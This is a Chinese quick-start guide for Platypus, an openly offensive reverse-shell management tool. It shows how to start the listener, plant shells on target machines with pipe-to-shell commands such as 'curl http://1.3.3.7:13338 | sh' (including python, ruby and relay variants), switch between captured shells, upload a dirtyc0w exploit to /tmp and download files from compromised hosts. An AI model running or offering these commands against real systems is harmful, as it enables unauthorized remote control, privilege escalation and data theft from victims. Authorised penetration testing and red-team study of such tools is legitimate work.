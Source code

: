 # 快速上手

!!! Tips
    您可以在[**这里**](https://github.com/WangYihang/Platypus/releases)下载到最新的 Release 版，
    您也可以参考[**这里**](/内部机制/build/)直接从源码编译得到 Platypus 的可执行文件。

## 运行

!!! Hint
    这里假设 Platypus 运行在具有公网 IP 的服务器上，其 IP 为 1.3.3.7。

### Linux

```
./platypus_linux_amd64
```
### Windows

```
.\platypus_windows_amd64.exe
```

启动时 Platypus 将会进行一些初始化工作，并开始监听反向 Shell 端口，一切准备就绪之后，Platypus 将会以命令提示符 `» ` 来提示用户可以开始输入命令与之交互。

!!! Tips
    如果您对 Platypus 的具体启动流程感兴趣，可以参考[本文](/内部机制/startup/)。

## 反弹一个反向 Shell

!!! Tips
    Platypus 支持普通反向 Shell 与 Platypus 本身的二进制 Shell（名为：[Termite](/使用/基本功能/termite/)），
    **强烈建议**您在拿到普通反向 Shell 之后使用 Upgrade 命令将其[升级](/使用/基本功能/termite/#termite_2)成 Termite Shell，或者[直接使用 Termite](/使用/基本功能/termite/#termite-shell) 来反弹。

受到 [lukechilds](https://github.com/lukechilds) 的 [reverse-shell](https://github.com/lukechilds/reverse-shell) 项目的启发，Platypus 支持 Reverse Shell as a Serivce (RaaS)，基本语法与其相同。在 RicterZ 的[推荐](https://github.com/WangYihang/Platypus/issues/30)下，增加了一些不同语言的反向 Shell 的 Payload。

您可以直接在目标机器上执行如下命令得到一个反向 Shell，从此不用再记忆各种繁琐的反向 Shell 命令。
如果您希望了解更加高级的 RaaS 的用法，请参考[本文](/使用/基本功能/raas/)。

```bash
curl http://1.3.3.7:13338 | sh
```

### 反弹 Shell 至当前 Platypus（`1.3.3.7:13338`）

```bash
curl http://1.3.3.7:13338 | sh
curl http://1.3.3.7:13338/python | sh
```

### 反弹 Shell 至其他平台（`2.3.3.7:4444`）

```bash
curl http://1.3.3.7:13338/2.3.3.7/4444 | sh
curl http://1.3.3.7:13338/2.3.3.7/4444/ruby | sh
```

反弹成功之后，Platypus 会对新上线的 Shell 进行基础的信息搜集（如：操作系统，用户名等），
当信息搜集结束后，即可利用 Platypus 与之进行交互。

## 与 Platypus 交互

!!! Hint
    Platypus 提供 3 种与之交互的方式。

    * [命令行](/使用/交互方式/cli/)
    * [Web 界面](/使用/交互方式/web/)
    * [Python SDK](/使用/交互方式/sdk/)

这里只介绍最基础的**命令行**模式的一些命令。

!!! Hint
    Platypus 对命令的大小写不敏感并且支持 Tab 自动对命令进行补全，您可以输入命令前缀然后按下 ++tab++ 键即可自动补全。

Platypus 的命令行模式支持 `Help`、`List`、`Jump`、`Download`、`Upload` 以及 `Interact` 等命令。

### Help

打印命令的帮助信息。

#### 列出所有受支持的命令

```bash
» Help
```

#### 列出 List 命令的帮助信息

```bash
» Help List
```

### List

列出当前正在监听的服务器以及每一个服务器上存活的 Shell。

```bash
» List
2021/08/11 22:46:10 Listing 2 listening servers
2021/08/11 22:46:10 [9442daedd052d7cdfebc43092a4a3050] is listening on 0.0.0.0:13337, 0 clients
2021/08/11 22:46:10 [1b7fb280df68ceebae36060c938a2ced] is listening on 0.0.0.0:13338, 0 clients
```

### Jump

!!! Tips
    Platypus 会根据配置文件中的[哈希计算模式](/内部机制/hashing/)对每一个上线的 Shell 计算哈希，该哈希会作为该 Shell 的唯一标识。

跳转到某一个 Shell 对其进行操作。

例如：

```
» Jump 1b7fb280df68ceebae36060c938a2ced
```

跳转成功后，终端的命令提示符将会修改为当前 Shell 的相关信息。
后续的命令（如：`Interact`）将会直接对当前的 Shell 进行操作。

### Interact

当跳转到某一个 Shell 之后，与之进行交互。

!!! Warning
    * 如果您直接执行 Interact 命令得到的 Shell 将会与 netcat 类似，并非纯交互式 Shell。
    * 如果您想要退出当前正在交互的 Shell，可以直接输入 `exit` 即可返回。
    * 如果您希望得到一个**像 SSH 一样好用丝滑的 Shell** 请参考[本文](/使用/基本功能/interact/)。

### Upload / Download

当跳转到某一个 Shell 之后，上传或下载文件。

!!! Hints
    目前 Platypus 只支持在 Cli 模式下进行文件上传下载操作

#### 上传文件

将 Platypus 当前文件夹下的 `dirtyc0w.c` 上传至当前交互主机的 `/tmp/dirtyc0w.c`。
```bash
» Upload ./dirtyc0w.c /tmp/dirtyc0w.c
```

#### 下载文件

将当前交互主机的 `/tmp/www.tar.gz` 下载至 Platypus 当前文件夹下的 `www.tar.gz` 中。

```bash
» Download /tmp/www.tar.gz ./www.tar.gz
```
